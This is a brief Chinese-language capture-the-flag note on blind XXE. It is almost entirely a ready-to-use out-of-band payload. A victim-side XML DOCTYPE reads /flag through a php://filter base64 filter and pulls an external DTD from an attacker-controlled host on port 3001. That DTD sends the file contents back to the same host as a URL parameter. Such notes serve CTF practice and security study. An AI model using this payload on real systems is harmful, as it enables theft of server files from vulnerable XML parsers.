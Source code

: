 tags:: CTFWEB/XXE

- # 思路
	- 无回显XXE [[CTFWEB/XXE]]
	- 利用OOB
- # Payload
	- 受害者
		- ```xml
		  <!DOCTYPE updateProfile [
		      <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
		      <!ENTITY % dtd SYSTEM "http://ca.xxx.xyz:3001/evil.dtd">
		      %dtd;
		      %send;
		  ]>
		  ```
	- 服务器
		- ```dtd
		  <!ENTITY % all
		      "<!ENTITY &#x25; send SYSTEM 'http://ca.xxx.xyz:3001/?data=%file;'>"
		  >
		  %all;
		  ```